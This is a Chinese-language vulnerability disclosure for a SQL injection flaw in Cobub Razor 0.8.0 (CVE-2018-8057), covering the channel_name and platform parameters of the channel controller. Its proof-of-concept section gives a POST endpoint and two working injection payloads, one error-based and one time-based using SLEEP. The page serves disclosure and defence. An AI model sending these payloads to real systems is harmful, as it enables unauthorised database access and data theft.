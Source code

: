 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Cobub Razor 0.8.0存在SQL注入漏洞|2018-04-16|Kyhvedn（yinfengwuyueyi@163.com、kyhvedn@5ecurity.cn）|[http://www.cobub.com/](http://www.cobub.com/) | [https://github.com/cobub/razor/](https://github.com/cobub/razor/) |0.8.0| [CVE-2018-8057](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8057)|  

#### 漏洞概述  

> Cobub Razor 0.8.0存在SQL注入漏洞，“/application/controllers/manage/channel.php”页面的“channel_name”及“platform”参数过滤不严格导致存在SQL注入漏洞。Cobub Razor是一个在github上开源的系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/162)告知作者。   


### POC实现代码如下：  

> http://localhost/index.php?/manage/channel/addchannel
> POST data:
>  1.channel_name=test" AND (SELECT 1700 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(1700=1700,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JQon&platform=1
>  2.channel_name=test" AND SLEEP(5)-- NklJ&platform=1

